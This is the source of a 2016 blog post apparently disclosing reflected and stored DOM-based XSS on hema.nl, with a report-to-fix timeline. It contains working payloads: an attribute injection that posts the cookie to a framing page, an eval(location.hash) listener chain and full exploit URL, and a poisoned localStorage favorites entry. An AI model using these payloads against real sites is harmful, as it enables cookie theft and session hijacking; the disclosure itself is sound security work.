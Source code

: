 ```yaml
---
title: Cross-site-scripting on one of the largest Dutch franchisors
subtitle: Reflected and "Stored" DOM-based cross-site-scripting on hema[dot]nl.
description: By abusing a sensitive data exposure vulnerability it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using cross frame scripting. Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.
keywords: xss, cross-site, scripting, hema, dutch, franchisor, dom, dom-based, sensitive, data, exposure
date: 2016-12-20 21:14:41
robots: index, follow
---
```


By abusing a sensitive data exposure vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2013-A6-Sensitive_Data_Exposure" %}) it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using cross frame scripting ({% customlink "https://www.owasp.org/index.php/Cross_Frame_Scripting" %}). Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.

> Please note that I used FireFox to test this vulnerability since browsers like Chrome, Safari and Edge have built in XSS auditors, which filter most of the reflected XSS.

> {% customlightbox "image-chrome-xss-auditor" "xss-auditor-block.png" "Google Chrome's XSS auditor" %}

### Proof of Concept (reflected XSS)
While examining hema.nl I found some interesting XHR calls. One of them was `ListerQuickView.aspx`, which contained a lot of GET parameters.

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=12345`

I tried to inject JavaScript in all the parameters but it didn't really work. Especially because they blocked all requests if the URL contained a `<` sign followed by another character. The value of one of the parameters, `productSku`, was used as an attribute value. This made it possible to execute JavaScript using the `onmousemove` event. Unfortunately the `onload` event couldn't be used since the element it got injected in was a div.

You can find the payload I used below. The inline CSS causes the div to overlap all content (this increases the chance that `onmousemove` is triggered). The `parent.postMessage` passes the cookie to the parent frame on mouse move.

`&productSku=tes" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="parent.postMessage(cookie, '*')">as`

Which resulted in the following HTML:

{% customlightbox "image-xss-payload" "xss-payload-in-source.jpg" "Payload in HTML" %}

We can now place this piece of art in an iframe, which results in cross frame scripting.

### Proof of Concept (Stored DOM-based XSS)

Making it "Stored DOM-based XSS" is a bit more difficult. I divided it into two steps, bypassing the input restrictions and inserting the JavaScript payload into the local storage.

#### Bypassing Hema's input restrictions

The DOM-based XSS vulnerability contains a little bit more code. Lets use the previous payload and edit it to look like this:

`data-message="message" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="eval(location.hash.substring(1))"`

This code executes the JavaScript from the `location.hash`. I used `location.hash` since hema.nl blocks a lot of characters, like `<` and `{`, and the `location.hash` will not be included in the request, so hema.nl will never know about it.

In my location hash I wrote `#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)})`.

I use `arguments[0].originalTarget.attributes[4].value` (where `arguments[0]` is the `onmousemove` event) to get the value of the fourth attribute of our div, which is the string `message`. I couldn't just add the string `"message"` to `addEventListener` since quotes in the hash are converted to `%22`, which results in an unexpected `%` character.

So all this code basically sets a listener for messages on mouse move. Using cross frame scripting we can now execute all the code we want in the hema.nl iframe using `postMessage`.

`document.getElementById('hema').contentWindow.postMessage('alert(document.cookie)', '*')`

Which results in:

{% customlightbox "image-alert-cookie" "xss-alert-cookie.png" "Alert on mouse over" %}

This is the full URL that I used:

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=tes%22%20data-message=%22message%22%20style=%22width:100%;height:100%;position:absolute;top:0;left:0;%22%20onmousemove=%22eval(location.hash.substring(1))%22%20data-test=%22as#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)});`

#### Making it "Stored DOM-based XSS"

Hema stores some interesting JSON in the local storage. For example, they store all the products that I added to my favorites.

A product that I added to my favorites looks like this:

<pre class="highlighting"><code>{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"<span class="discount-info"></span><span class="price">3.<sup>-</sup></span>",
}</code></pre>

And ofcourse, using our postMessage, we can edit it so it looks like this (note the `onload` in the imgUrl):

<pre class="highlighting"><code>{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg\" onload=\"alert(document.cookie)",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"<span class="discount-info"></span><span class="price">3.<sup>-</sup></span>",
}</code></pre>

Hema loads the favorites and shows the image without encoding the URL. Which means every time the victim navigates to hema.nl an alert will pop up.

So there you go, Stored DOM-based XSS!

{% customlightbox "image-stored-dom-based-xss-alert-cookie" "xss-stored-proof.png" "Stored DOM-based XSS in hema.nl" %}

### Domains
{% raw %}
<a href="http://www.hema.nl/" target="_blank" rel="noopener">www.hema.nl</a> (vulnerable)
<br>
<a href="http://www.hema.fr/" target="_blank" rel="noopener"><s>www.hema.fr</s></a> (protected by CloudFlare)
<br>
<a href="http://www.hema.be/" target="_blank" rel="noopener"><s>www.hema.be</s></a> (not vulnerable)
<br>
<a href="http://www.hemashop.com/" target="_blank" rel="noopener"><s>www.hemashop.com</s></a> (not vulnerable)
{% endraw %}

### Timeline
{% raw %}
<div class="table-responsive">
	<table class="table">
		<thead>
			<tr>
				<th>Date</th>
				<th>Activity</th>
			</tr>
		</thead>
		<tbody>
			<tr>
				<td>11 Dec 2016 18:43:34 GMT</td>
				<td>Reported the vulnerability to Hema.</td>
			</tr>
			<tr>
				<td>12 Dec 2016 09:23:21 GMT</td>
				<td>Hema is investigating the vulnerability.</td>
			</tr>
			<tr>
				<td>15 Dec 2016 13:54:56 GMT</td>
				<td>Hema confirmed the vulnerability.<br>Hema will be releasing a fix in week 51.</td>
			</tr>
			<tr>
				<td>20 Dec 2016 19:11:44 GMT</td>
				<td>Hema fixed the vulnerability.</td>
			</tr>
			<tr>
				<td>20 Dec 2016 19:14:41 GMT</td>
				<td>Public disclosure.</td>
			</tr>
		</tbody>
	</table>
</div>
{% endraw %}
